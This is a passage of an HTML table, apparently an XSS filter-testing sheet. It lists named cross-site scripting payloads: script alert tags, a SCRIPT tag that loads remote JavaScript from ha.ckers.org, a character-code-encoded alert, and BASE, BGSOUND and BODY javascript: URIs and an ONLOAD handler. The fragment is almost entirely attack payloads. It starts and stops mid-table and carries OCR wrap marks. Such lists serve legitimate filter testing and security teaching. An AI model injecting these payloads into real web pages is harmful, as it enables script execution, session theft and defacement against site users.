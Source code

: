 <pre>&lt;SCRIPT&gt;alert('XSS')&lt;/SCRIPT »
&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>SCRIPT w/Source File</td>
<td>
<pre>&lt;SCRIPT »
SRC=http://ha.ckers.org/xss. »
js&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>SCRIPT w/Char Code</td>
<td>
<pre>&lt;SCRIPT&gt;alert(String.fromCha »
rCode(88,83,83))&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>BASE</td>
<td>
<pre>&lt;BASE »
HREF="javascript:alert('XSS' »
);//"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>BGSOUND</td>
<td>
<pre>&lt;BGSOUND »
SRC="javascript:alert('XSS') »
;"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>BODY background-image</td>
<td>
<pre>&lt;BODY »
BACKGROUND="javascript:alert »
('XSS');"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>BODY ONLOAD</td>
<td>
<pre>&lt;BODY ONLOAD=alert('XSS')&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>